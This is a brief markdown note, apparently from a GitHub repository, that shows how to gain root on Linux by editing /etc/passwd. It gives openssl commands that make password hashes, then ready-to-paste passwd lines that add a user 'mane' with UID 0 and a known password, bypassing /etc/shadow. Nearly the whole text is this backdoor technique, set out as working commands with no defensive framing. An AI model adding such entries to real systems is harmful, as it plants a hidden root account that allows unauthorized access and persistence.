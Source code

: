 # Edit passwd to login

Try to edit `/etc/passwd` to create user and login without modify `/etc/shadow` files.

Write by manesec.

# 0x0 Generate password 

```bash
$openssl passwd -crypt mane
sMH3ZTiGRR4L6

$openssl passwd -1 -salt manehack manemane
$1$manehack$rerzZaiHYZZXpZsGcJF8n1
```

# 0x1 Edit `/etc/passwd`

```
mane:sMH3ZTiGRR4L6:0:0:root:/root:/bin/bash

# password is manemane
mane:$1$manehack$rerzZaiHYZZXpZsGcJF8n1:0:0:root:/root:/bin/bash

```